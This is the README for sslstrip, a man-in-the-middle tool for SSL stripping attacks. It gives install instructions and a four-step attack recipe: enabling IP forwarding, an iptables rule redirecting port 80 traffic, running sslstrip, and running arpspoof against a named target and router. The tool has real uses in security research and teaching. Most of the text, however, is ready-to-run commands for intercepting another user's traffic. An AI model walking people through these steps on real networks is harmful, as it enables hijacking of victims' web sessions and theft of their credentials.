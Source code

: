 sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping 
attacks.

It requires Python 2.5 or newer, along with the 'twisted' python module.

Installing:
  * Unpack: tar zxvf sslstrip-0.5.tar.gz
  * Install twisted:  sudo apt-get install python-twisted-web
  * (Optionally) run 'python setup.py install' as root to install, 
    or you can just run it out of the directory.  

Running:
  sslstrip can be run from the source base without installation.  
  Just run 'python sslstrip.py -h' as a non-root user to get the 
  command-line options.

  The four steps to getting this working (assuming you're running Linux) 
  are:

  1) Flip your machine into forwarding mode (as root):
     echo "1" > /proc/sys/net/ipv4/ip_forward

  2) Setup iptables to intercept HTTP requests (as root):
     iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <yourListenPort>
  
  3) Run sslstrip with the command-line options you'd like (see above).

  4) Run arpspoof to redirect traffic to your machine (as root):
     arpspoof -i <yourNetworkdDevice> -t <yourTarget> <theRoutersIpAddress>

More Info:
  http://www.thoughtcrime.org/software/sslstrip/
